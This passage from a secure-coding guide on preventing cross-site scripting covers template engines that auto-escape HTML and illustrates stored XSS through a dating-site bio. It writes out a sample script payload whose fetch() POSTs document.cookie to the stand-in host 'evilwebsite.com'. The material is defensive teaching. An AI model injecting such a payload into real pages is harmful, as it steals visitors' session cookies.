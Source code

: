 When you send HTML to the user, all dynamic content must be escaped. Use a template engine to construct your responses,
and make sure that auto-escaping is on.

Fortunately, all template engines support escaping HTML, and most of them enable it by default. Below are just a few
examples.

| Language   | Template Engine | Escapes HTML by default?      |
| ---------- | --------------- | ----------------------------- |
| JavaScript | Nunjucks        | Yes                           |
| JavaScript | EJS             | Yes, with `<%= %>`            |
| Python     | DTL             | Yes                           |
| Python     | Jinja           | **Sometimes** (Yes, in Flask) |
| Ruby       | ERB             | Yes, with `<%= %>`            |
| PHP        | Blade           | Yes                           |
| Go         | html/template   | Yes                           |
| Java       | Thymeleaf       | Yes                           |
| Rust       | Tera            | Yes                           |

The kind of vulnerability this prevents is often called a Cross-Site Scripting (XSS) attack, a term that is
[broadly used](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html#introduction)
to mean the injection of any unexpected content into your webpage. Typically, an attacker uses your APIs to store
malicious code in your database, which you then serve to your other users who request that info.

For example, let's say you're building a dating site, and it lets users share a little bio about themselves. You'd
render that bio like this, with `{{ user.bio }}` being the bio stored in the database:

```html
<p>{{ user.bio }}</p>
```

If a malicious user wrote a bio with a script element in it—like one that sends the client's cookie to another
website—then this HTML will get sent to every user who views that bio:

```html
<p>
  <script>
    fetch("evilwebsite.com", { method: "POST", body: document.cookie });
  </script>
</p>
```

Fortunately this one is so easy to fix that you can write the code yourself. Whenever you insert untrusted (i.e.
user-provided) data, you just have to replace eight characters with their non-code equivalents. This is an example using
JavaScript:
